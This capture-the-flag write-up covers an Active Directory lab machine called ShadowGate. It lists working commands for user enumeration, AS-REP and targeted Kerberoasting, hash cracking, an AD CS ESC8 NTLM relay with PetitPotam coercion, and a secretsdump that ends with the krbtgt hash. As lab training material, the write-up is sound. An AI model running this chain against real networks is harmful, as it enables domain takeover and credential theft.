## Introduction
This is the writeup of ShadowGate, HackSmarter's latest machine (Released roughly 2 hours ago from time of writing!)
Overall it's a pretty simple Active Directory machine, and is easily doable given patience!
In this writeup, I'll also detail all my steps taken to show my thinking process.
**Note that I didn't properly follow certain fundamentals like checking every service before moving on to the next step given that I wanted to complete this ASAP since if you check the screenshots, it's very late! This works because this is a CTF, but in a proper engagement, don't do this. You'll get screwed over by the client since you should be checking everything.**


## Enumeration Results
The nmap scan results were provided in the description

```zsh
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-15 13:41:20Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: shadow.gate, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: shadow.gate, Site: Default-First-Site-Name)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: shadow.gate, Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: shadow.gate, Site: Default-First-Site-Name)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
```

Nothing really stands out from the given output. Therefore, we can just proceed with normal enumeration

### Editing /etc/hosts
Before proceeding, don't forget to add the domain to your /etc/hosts!


### Enumerating Port 80 (HTTP)
Port 80 contains a normal IIS site. A possible vector that I wanted to rule out immediately was whether there was a web app running which I would have to use to gain initial access/credentials into the machine. 

Therefore, I ran a dirsearch and *luckily* got nothing!



### Port 139,445 (SMB)
Next, check SMB. I don't have any credentials, therefore, I'll need to enumerate out usernames. I did this with 

```
nxc smb 10.1.100.168 --users
```

and there's a list of valid usernames, which I'll add to a txt file for spraying. 




## ASREP-Roast 🔥
Next, I ASREP-Roast with the valid list of usernames with
```
nxc ldap 10.1.100.168 -u usernames.txt -p "" --asreproast asrep-output.txt
```
getting the asrep ticket of **jtrueblood**. 



### Cracking ASREP Roast password 
Next I attempt to crack the hash with Hashcat, keeping my fingers crossed that it's a weak password. 
``` zsh
hashcat -m 18200 asrep-output.txt /usr/share/wordlists/rockyou.txt --force
```


Luckily, it works, and I get a credential of **blood_brothers**.


I like to do a quick check with the credentials to ensure that they're working and I've copied them correctly, and that they're not reused across different users (for a quick win).




Note that if you can't crack the hash, just pass the hash instead!


As per the image, there's an interesting share called *CertEnroll*, but if you check it with the creds, it contains the CA certs of DC, which would be useful in a proper red team engagement, but not too useful here.



## BloodHound Enumeration
Hence, the next step with a valid credential is to enumerate the AD environment for more attack vectors. I use bloodhound since I'm already suffering from hair loss, and I have no desire to lose even more via manual commands. 

``` zsh
nxc ldap 10.1.100.168 -u 'jtrueblood' -p 'blood_brothers' --dns-server 10.1.100.168 --bloodhound --collection All
```

From the bloodhound, I can confirm a few interesting findings:
1) Our **ONLY** Domain Admin is `Administrator`


2) **jtrueblood** has GenericWrite over user **bbrown**, meaning that that's likely my next attack vector 


3) bbrown is a member of the ADCS group!

Therefore, the next attack plan is to: 
- Compromise bbrown through jtrue blood
- Conduct one of the certificate attacks 
- Grab plaintext creds (hopefully) and win (since i'm tired 🙏)

## Targeted Kerberoast of bbrown 
```zsh
python3 targetedKerberoast.py -v -d "shadow.gate" -u "jtrueblood" -p "blood_brothers"
```



And then crack the resultant NTLM hash
```zsh
hashcat -m 13100 bbrown-krbtgs.txt /usr/share/wordlists/rockyou.txt --force
```


I therefore get his weak password of **12345678**.

## Certipy Attack 
The next phase is the Certificate Attack 

### Enumerating CS Vulnerabilities
Prior to doing a certificate attack, always check which certificates are vulnerable since like there's quite a few and they're all somewhat different. 

```zsh
certipy-ad find -u 'bbrown' -p '12345678' -dc-ip 10.1.100.168 -text -enabled -hide-admins -vulnerable
```


Reading it, I can see the ESC8 Vulnerability


Thankfully that's not too hard! 

### Attack on ESC8
If you read the wiki of certipy on ESC8, you'll get the logic + steps to do. But step-wise, we really only need to do 2 things:
1) Set up a relay to catch the cert request
2) Make the DC send the cert over (*SOMEHOW*)

Then after that, you can just freely use the cert!

Step 1: Start the NTLM Relay, configuring it to the CA's Vulnerable Web Enrollment endpoint. I used `impacket-ntlmrelayx`

```zsh
impacket-ntlmrelayx -t http://10.1.100.168/certsrv/certfnsh.asp -debug -smb2support --adcs --template DomainController
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client WINRMS loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client MSSQL loaded..
[+] Protocol Attack WINRMS loaded..
```

Step 2: Coerce authentication from DC to the relay. I used PetitPotam for this since it's easier to handle. As mentioned above, the aim is to force the DC to attempt NTLM authentication against my NTLM relay.

```zsh
python3 PetitPotam.py -u 'bbrown' -p '12345678' -d shadow.gate 10.200.53.241 10.1.100.168
```



After that, just use the cert! I used it against the DC in hopes of getting the Administrator hash...
But got the DC01 machine hash instead.



We can tell its the DC01 MACHINE HASH because its `DC01$`


In another kind of CTF, you would attempt a DCSYNC and pray it works.
Luckily, we only need to find the NT hash of KRBTGT. Therefore, I attempt a secretsdump:

```zsh
impacket-secretsdump -hashes :57867e655d1abc9f45fd6e954e351531 'dc01$@shadow.gate'
```


``` zsh
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b5509cbfe52e94940c0ec99b21e09802:::
```
And we have the entire thing! Remember that hashes displayed are LM:NT